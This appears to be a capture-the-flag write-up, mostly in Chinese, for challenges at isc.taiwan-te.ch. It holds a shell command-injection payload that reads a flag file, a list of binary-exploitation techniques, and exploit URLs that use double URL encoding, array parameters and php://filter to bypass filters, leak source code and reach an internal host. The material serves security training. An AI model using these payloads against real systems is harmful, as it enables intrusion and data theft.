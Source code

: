 # isc.taiwan-te.ch
## ls
```bash
$(echo > /tmp/$(tail /$(echo fl)$(echo ag)); echo /tmp)
```


## pwns
  - pwntools
  - bof
  - bof2
  - ret2sc
  - gothijack 找到got位置指向shellcode
  - rop
  - ret2plt
  - ret2libc

  ### notes  
  - see github source code 
  - 避免分散發出封包
  - `context.log_level ='debug'`


## jssrf
1. [see source code](http://140.118.126.237:8889/source)
2. 本網頁透過`3000`作為公開端口，並且透過該端口接收api，之後過濾輸入內容之後傳到內部端口`3333`。
3. 過濾器`限制長度`與`../`，前者透過path[]繞過，後者透過兩次編碼繞過
4. 得到flag的emoji，一樣兩次編碼繞過第二個過濾器得出結果
5. [get flag](http://140.118.126.237:8889/?path[]=.%252e/flag?tok%25%36%35n=SUP3R_S3CR3T_T0K3N)

## re-d1v1n6
  1. 讓php報錯之後得知`file_get_contents()`函數使用，
  2. 透過`php://filter` 下載base64內容不完整，採用zlib.deflate
  [下載](http://140.118.126.237:8890/?p=php://filter/zlib.deflate/resource=index.php)
  並且解壓縮得到完整的原始碼，執行後得到
  `flag hint: 9GBz6DJ71S1JbPiHYI45.php; fl4g format: flag{[a-z]{16}}`。
  3. 得到該php的[source code](http://140.118.126.237:8890/?p=9GBz6DJ71S1JbPiHYI45.php)
   與[可執行的網站](http://140.118.126.237:8890/?p=http://127.0.0.1/9GBz6DJ71S1JbPiHYI45.php)
  4. ~~透過[過濾器移除tag](http://140.118.126.237:8890/?p=php://filter/string.strip_tags/resource=http://127.0.0.1/9GBz6DJ71S1JbPiHYI45.php?dir=fl4g_1n_th15_d1rect0ry_ju5t_0p3n_m3)~~
    透過[壓縮](http://140.118.126.237:8890/?p=php://filter/zlib.deflate/resource=http%3A%2F%2F127.0.0.1%2F9GBz6DJ71S1JbPiHYI45.php%3Fdir%3Dfl4g_1n_th15_d1rect0ry_ju5t_0p3n_m3)
    換取空間得到更多的資訊，但此方法不是很穩定可以得到解答
  
  - 參見`re-d1v1n6.py`


